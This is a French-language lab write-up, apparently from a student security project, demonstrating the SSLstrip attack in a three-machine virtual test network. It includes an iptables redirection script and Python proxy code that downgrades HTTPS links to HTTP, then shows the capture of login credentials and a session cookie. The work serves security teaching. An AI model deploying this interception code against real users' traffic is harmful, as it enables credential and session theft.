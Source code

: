 # Attaque SSLstrip

L'attaque SSLstrip a été présentée pour la première fois par Moxie à la Blackhat de 2009.

Cette attaque consiste à remplacer dans les requêtes HTTP, toutes les références à des URL pointant vers des liens HTTPS par leurs version HTTP. Cette attaque était efficace notamment lorsque seule la page de login était sécurisée en HTTPS mais que le reste du site utilisait le protocole HTTP.

----------------------------------------------

# Configuration de l'environnement de test

L'environnement de test consiste en trois machines virtuelles :

- grave, la machine cliente et victime.

- opeth, la machine serveur.

- immortal, la machine attaquante, positionnée en homme du milieu.

Voici la [topologie](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/topology) des machines mise en place :

```
### twolans
#
#  opeth - [s1] - immortal - [s2] - grave
#

# switches

SWITCH s1
SWITCH s2
HOST alpinex   grave    s2
HOST debian10  immortal s1 s2
HOST debian10  opeth    s1
```

Cette topologie n'est pas forcément réaliste car rare sont les cas où l'attaquant est dans le réseau du client attaqué.

Toutes les configurations initiales des machines se trouvent dans le fichier __"start.sh"__ de chaque dossier correspondant aux machines.

## Machine "grave" (147.210.13.2)

Cette machine utilise l'environnement graphique de la distribution Linux Alpine. Le navigateur firefox est utilisé pour la démonstration.

Au lancement de la machine, il faut l'autorité de certification dans firefox. Se reporter au fichier [start.sh](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/grave/start.sh)

## Machine "opeth" (www.opeth.local)

Cette machine héberge un serveur HTTP(s) Nginx sur le port 80 et 443. Le certificat utilisé pour les connexions HTTPS a été généré avec les scripts [create-ca.sh](https://github.com/t00sh/mastercsi-ter/tree/master/CA/create-ca.sh) et [new-cert.sh](https://github.com/t00sh/mastercsi-ter/tree/master/CA/new-cert.sh) de la façon suivante :

```
$ cd CA
$ ./create-ca.sh
$ ./new-cert.sh
```

Le serveur héberge deux pages :

  - une page [index.php](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/opeth/www/index.php) que l'on accéde en HTTP et présentant un formulaire de login.

  - une page [secure.php](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/opeth/www/secure.php) que l'on accéde en HTTPS depuis la page index.php.

## Machine "immortal" (147.210.12.2 - 147.210.13.1)

C'est sur cette machine que se trouve le PoC de l'attaque, dans le fichier [/mnt/host/attack.sh](https://github.com/t00sh/mastercsi-ter/tree/master-b64c24f/sslstrip/immortal/attack.sh).

Cette VM est configurée pour forwarder les paquets entre opeth et grave.


------------------------------------------------------

# Démo

Pour lancer l'environnement de test, il faut lancer la commande suivante (on aura récupéré au préalable le dépôt qemunet) :

```
$ ./qemunet/qemunet.sh -x -S sslstrip
```

À partir de là, les trois machines sont lancées.

## Étape 1 : avant l'attaque

Lorsque l'attaque n'est pas encore lancée, nous pouvons voir sur la machine grave, que tout se passe normalement et que la requête POST passe bien en HTTPS (immortal est donc incapable de voir les identifiants envoyés) :

![screen1](https://repo.t0x0sh.org/images/mastercsi-ter/sslstrip/screen1.png)

L'encadré rouge montre bien que le POST est effectué en HTTPS, sur la page secure.php.

![screen2](https://repo.t0x0sh.org/images/mastercsi-ter/sslstrip/screen2.png)

Nous arrivons alors sur la page secure.php, en HTTPS : la machine immortal n'a pas pût voir nos échanges sur cette page sécurisée.

![screen3](https://repo.t0x0sh.org/images/mastercsi-ter/sslstrip2/screen3.png)

## Etape 2 : lancement de l'attaque

Comme expliqué précédement, pour lancer l'attaque, il faut exécuter le fichier __[/mnt/host/attack.sh](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/immortal/attack.sh)__ depuis immortal. Voici son contenu :

```
PROXY_PORT=4242

iptables -t nat -F
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port $PROXY_PORT

/mnt/host/sslstrip.py $PROXY_PORT
```

La règle iptables permet de rediriger les flux TCP à destination du port 80 (HTTP) vers le port d'écoute du proxy qui est chargé d'analyser et traiter les requêtes.

![screen4](https://repo.t0x0sh.org/images/mastercsi-ter/sslstrip/screen4.png)

### Explication du code du proxy

Le code du proxy est dans le fichier [sslstrip.py](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/immortal/sslstrip.py).

#### Réception des requêtes

Lors de la réception de requêtes, il s'agit de savoir si l'on doit :

- fermer la connexion (le client ou le serveur a fermé sa socket)
- établir une connexion https, dans le cas où le client demande la page [secure.php](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/opeth/www/secure.php)
- établir une connexion http, dans le cas où le client demande la page d'accueil [index.php](https://github.com/t00sh/mastercsi-ter/blob/master/sslstrip/opeth/www/index.php)

Voici la fonction implémentant la reception d'une requête HTTP :

```python
def __recv(self, csock):
        fw_sock = self.__csockets[csock]
        data = csock.recv(BUFFER_SIZE)
        if len(data) == 0:
            self.__close_conn(csock)
            self.__close_conn(fw_sock)
        else:
            print(data)

            if fw_sock is None:
                m = re.search(b'(GET|POST) (\S+) HTTP/\d.\d', data)
                if m is not None and m.group(2) in HTTPS_URL:
                    self.__new_https_conn(csock)
                else:
                    self.__new_http_conn(csock)
                fw_sock = self.__csockets[csock]
            data = self.__replace_https_to_http(data)
            data = self.__replace_content_length(data)
            fw_sock.send(data)

```

A la fin, on transforme tous les liens __https__ trouvé en __http__ et on recalcule la taille de la requête (entête Content-Length).

#### Transformation des liens

La transformation se fait à l'aide d'une expression régulière qui remplace __https://__ par __http://__ dans les données HTTP.

```python
def __replace_https_to_http(self, data):
        return re.sub(b'https://', b'http://', data)
```

#### Recalcule de l'entête Content-Length

Il faut ensuite recalculer l'entête Content-Length, en se basant sur le début des données HTTP situées après la séquence "\r\n\r\n" :

```python
def __replace_content_length(self, data):
    try:
        idx = data.index(b"\r\n\r\n")
        length = len(data) - idx - 4
        return re.sub(b'Content-Length: (\d+)',
                      b'Content-Length: %d' % length, data, 1)
    except:
        return data
```

## Etape 3 : pendant l'attaque

Lorsque l'attaque est lancée, on peut voir que tous les liens https:// sont remplacés par http://.

La machine immortal est donc capable d'intercepter les échanges réalisés sur la page secure.php. Ici on voit dans l'encadré rouge, que le lien https:// a bien été remplacé par un lien non sécurisé http:// :

![screen5](https://repo.t0x0sh.org/images/mastercsi-ter/sslstrip/screen5.png)

Nous constatons que nous arrivons sur la page secure.php en HTTP : notre navigation n'est pas sécurisée !

![screen6](https://repo.t0x0sh.org/images/mastercsi-ter/sslstrip/screen6.png)

La machine immortal a été capable de capturer non seulement les identifiants du formulaire, mais également le cookie de session :

![screen7](https://repo.t0x0sh.org/images/mastercsi-ter/sslstrip/screen7.png)
